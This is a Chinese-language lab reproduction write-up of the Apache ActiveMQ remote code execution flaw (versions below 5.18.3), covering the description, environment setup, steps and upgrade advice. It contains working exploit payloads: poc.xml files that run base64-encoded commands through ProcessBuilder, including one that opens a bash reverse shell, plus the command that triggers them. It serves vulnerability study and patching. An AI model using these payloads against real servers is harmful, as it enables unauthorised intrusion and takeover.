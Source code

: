 # Apache ActiveMQ远程代码执行

## 漏洞描述

Apache ActiveMQ 是 Apache 软件基金会研发的一个开源消息中间件，为应用程序提供高效的、可扩展的、稳定的和安全的企业级消息通信。

当未经身份认证的攻击者访问 Apache ActiveMQ 的 61616 端口时，可通过发送恶意数据在远程服务器上执行代码，进而控制 Apache ActiveMQ 服务器。

更新日期：2023-10-25

参考链接：

- https://activemq.apache.org/activemq-5016006-release
- https://github.com/Fw-fW-fw/activemq_Throwable

## 漏洞影响

```
Apache ActiveMQ  < 5.18.3
```

## 环境搭建

在 ActiveMQ 官方下载 5.16.6 版本安装包，链接：https://activemq.apache.org/activemq-5016006-release

解压安装包，在目录 ./apache-activemq-5.16.6/bin/linux-x86-64 下以控制台模式启动，方便排查报错信息，注意使用 jdk 11：

```
./activemq console
```

![image-20231027181920007](images/image-20231027181920007.png)

访问 8161 端口管理页面：

![image-20231030090050081](images/image-20231030090050081.png)

## 漏洞复现

编写 poc.xml，托管在 8080 端口。开启 http 服务：

```
python3 -m http.server 8080
```

![image-20231027181935525](images/image-20231027181935525.png)

执行命令：

```
touch /tmp/success
-------
base64编码：dG91Y2ggL3RtcC9zdWNjZXNz
```

poc.xml（注意缩进）：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,dG91Y2ggL3RtcC9zdWNjZXNz}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

使用 [poc](https://github.com/Fw-fW-fw/activemq_Throwable) 进行复现：

```
java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8080/poc.xml
```

成功执行 `touch /tmp/success`：

![image-20231027181843920](images/image-20231027181843920.png)

反弹 shell 的 poc.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}</value>
                
            </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231030083005877](images/image-20231030083005877.png)

## 修复建议

根据影响版本中的信息，排查并升级到安全版本，或直接访问参考链接获取官方更新指南。补丁下载链接：https://github.com/apache/activemq/tags
